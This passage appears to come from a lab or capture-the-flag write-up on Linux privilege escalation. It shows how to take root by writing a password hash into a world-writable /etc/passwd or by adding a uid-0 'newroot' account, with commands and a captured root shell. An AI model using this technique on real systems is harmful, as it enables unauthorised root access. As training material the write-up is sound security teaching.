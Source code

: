 You can now login as root with the password that you have defined:

```bash
user@debian:/tmp$ su - root
Password: 
root@debian:~# whoami
root
```

# [Task 5] Weak File Permissions - Writable /etc/passwd

The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note that the /etc/passwd file is world-writable:

```bash
ls -l /etc/passwd
```

Generate a new password hash with a password of your choice:

```bash
openssl passwd newpasswordhere
```

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

```bash
su root
```

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

Now switch to the newroot user, using the new password:

```bash
su newroot
```

Remember to exit out of the root shell before continuing!
## #1 - Run the "id" command as the newroot user. What is the result?

```bash
user@debian:/tmp$ openssl passwd I_am_r00t
Warning: truncating password to 8 characters
wSmjazD3HkJmU
user@debian:/tmp$ vim /etc/passwd
user@debian:/tmp$ grep root /etc/passwd
root:wSmjazD3HkJmU:0:0:root:/root:/bin/bash
user@debian:/tmp$ su - root
Password: 
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```
